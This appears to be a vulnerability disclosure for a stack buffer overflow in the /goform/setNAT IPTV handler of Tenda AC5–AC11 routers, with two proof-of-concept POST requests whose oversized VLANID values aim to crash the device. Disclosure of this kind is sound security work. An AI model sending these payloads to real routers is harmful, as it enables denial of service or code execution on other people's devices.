

# Tenda Router Vulnerability

This vulnerability exists in in  module `IPTV` of `/goform/setNAT` and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

On the `/goform/setNAT` page, there is a stack overflow vulnerability that allows an attacker to execute arbitrary code with a well-designed POST request, or to to complete a denial of service attack.



1. There is no restriction on the `VlanID` and `VlanArea` we input.
2. When we enter `VLANAREA` equal to 1, the program will jump to LABEL_6, which will take the VLANID we entered, using `strcpy(v40, v14);` to copy to v40, which is prone to stack  buffer overflow.
3.  When we enter `VLANAREA` equal to 2, it will take the `VLANID` we enter, using `strcpy(v37, v9);`  copy to v37, which is also prone to stack buffer overflow.

## POC

```
POST /goform/setNAT HTTP/1.1
Host: 192.168.0.1
Content-Length: 57
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: [http://192.168.0.1](http://192.168.0.1)
Referer: [http://192.168.0.1/index.html](http://192.168.0.1/index.html)
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=IPTV&IPTVEn=true&VLANArea=1&VLANID=aaaaaaaaa&VLANSelect=
```

```
POST /goform/setNAT HTTP/1.1
Host: 192.168.0.1
Content-Length: 60
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=IPTV&IPTVEn=true&VLANArea=2&VLANID=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&VLANSelect=
```

### Verify

Vulnerability demo


If the number of characters were longer, it would be enough to overflow.